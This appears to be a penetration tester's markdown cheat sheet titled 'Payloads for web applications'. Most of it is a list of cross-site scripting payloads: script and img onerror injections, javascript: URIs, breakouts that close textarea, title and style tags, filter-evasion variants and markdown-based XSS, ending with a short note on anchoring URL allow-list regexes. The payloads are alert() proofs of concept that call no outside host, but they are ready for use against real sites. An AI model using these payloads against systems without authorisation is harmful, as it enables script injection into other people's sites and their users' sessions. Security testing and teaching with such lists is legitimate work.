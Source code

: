 # Payloads for web applications

## XSS
- Level-wise
```bash
"><u>ashok # Check the HTML encoding
<script>alert(1)</script>
<script>alert(1);//</script>
<script>confirm(1);//</script>
<img src=x onerror=alert(1)>
<img src=x onmouseover=alert(1)>
<a href=javascript:alert(1)>test123
<iframe src=javascript:alert(1)>
<object data="data:text/html,<script>alert(1)</script>"></object>
<object%20data="data:text/html,<h1>Ash0k</h1>"></object>
<script src=data:text/javascript,alert(1337)></script>
</p>test123  | </p><h1>test123 | </p><h1><u>test123
text123"%20onmouseover=alert(1);// # First confirm with test123"> printing the special characters
test123;//"><img/src=x%20onerror=alert(2)></textarea><img/src=x%20onerror=alert(2)> # Text area tag must be closed </textarea>
"></textarea><ScRiPt>alert(1)</ScRiPt>
text123</title><script>alert(1)</script> # Title tag must be closed </title>
#fff);}</style><script>alert(1)</script><style>body{background-color:#   # Style sink close
text123%27;alert(1)// # Check the special characters like single or double quotes
<script></script><script>alert(1)</script>
# Markdown https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md
[Ashok](javascript:alert``)
![ashok](https://ashok5141.github.io/img/Ashok.jpg1"onerror=alert(1)//;)
![ashok](https://ashok5141.github.io/img/Ashok.jpg1"onmouseover=alert(1)//;)
<u/onmouseover=alert();//>ashok # When filtering
<iframe/src=javascript:alert();//>
<a/href=javascript:alert(2)>Click_Me
<scr<script>ipt>alert(1)</scr</script>ipt>


```


## Best Practices
> Resources for Regex [Regular Expressions](https://regex101.com/)
- Here it can allow any website, it matches `In the TEST STRING, Instead of . we can place any single character`
![Regex](/Images/regex1.png)

- Here it should match `^ sign`, `In the TEST STRING, Instead of . we can place any single character`
![Regex](/Images/regex_Secured.png)
